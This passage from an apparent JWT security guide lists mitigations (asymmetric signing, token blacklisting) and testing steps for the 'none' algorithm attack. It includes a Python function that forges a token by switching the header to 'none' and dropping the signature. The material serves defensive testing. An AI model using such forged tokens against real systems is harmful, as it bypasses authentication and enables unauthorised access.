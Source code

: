 #### 5. Use Asymmetric Algorithms
Prefer asymmetric algorithms (RS256, EdDSA) over symmetric ones:
- Private key for signing (server-side only)
- Public key for verification (can be shared)
- Better key management
- More secure for multi-party applications

#### 6. Implement Token Blacklisting
```python
# Blacklist compromised tokens
def is_token_blacklisted(token_id):
    return token_id in blacklisted_tokens

def validate_token(token):
    if is_token_blacklisted(token["jti"]):
        raise SecurityException("Token blacklisted")
```

## Testing the Attack

### Manual Testing
1. Obtain a valid JWT token
2. Decode the token to see its structure
3. Modify the header to use "none" algorithm
4. Remove the signature
5. Submit the modified token
6. Check if the application accepts it

### Automated Testing
```python
import jwt
import base64
import json

def test_none_algorithm_attack(original_token):
    # Split the token
    header_b64, payload_b64, signature = original_token.split('.')
    
    # Decode header
    header = json.loads(base64.b64decode(header_b64 + '=='))
    
    # Create malicious header
    malicious_header = {"alg": "none", "typ": "JWT"}
    malicious_header_b64 = base64.b64encode(json.dumps(malicious_header).encode()).decode().rstrip('=')
    
    # Create malicious token
    malicious_token = f"{malicious_header_b64}.{payload_b64}."
    
    return malicious_token
```
